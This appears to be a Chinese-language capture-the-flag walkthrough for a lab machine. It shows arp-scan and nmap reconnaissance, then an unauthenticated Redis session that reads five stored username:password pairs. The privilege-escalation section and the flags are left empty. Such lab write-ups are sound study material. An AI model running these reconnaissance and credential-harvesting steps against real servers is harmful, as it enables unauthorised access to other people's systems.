









## 网段扫描
```
root@LingMj:~/xxoo/jarjar# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.14	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.64	a0:78:17:62:e5:0a	Apple, Inc.

11 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.332 seconds (109.78 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:~/xxoo/jarjar# nmap -p- -sV -sC 192.168.137.14 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 03:56 EDT
Nmap scan report for lower6.mshome.net (192.168.137.14)
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
6379/tcp open  redis   Redis key-value store
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.85 seconds
```

## 获取webshell

  

>复盘没有找到字典1000内的hellow的字典
>

  
  

  

```
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
192.168.137.14:6379> SELECT 0 
OK
192.168.137.14:6379> KEYS *
1) "key2"
2) "key3"
3) "key5"
4) "key4"
5) "key1"
192.168.137.14:6379> TYPE key1
string
192.168.137.14:6379> GET key1
"killer:K!ll3R123"
192.168.137.14:6379> GET key2
"ghost:Ghost!Hunter42"
192.168.137.14:6379> GET key3
"snake:Pixel_Sn4ke77"
192.168.137.14:6379> GET key4
"wolf:CyberWolf#21"
192.168.137.14:6379> GET key5
"shadow:ShadowMaze@9"
192.168.137.14:6379> exir
(error) ERR unknown command 'exir', with args beginning with: 
192.168.137.14:6379> exit
```

  

>好了出密码了
>

## 提权

  
  
  

>有解
>

  

>好了结束了
>

>userflag:
>
>rootflag:
>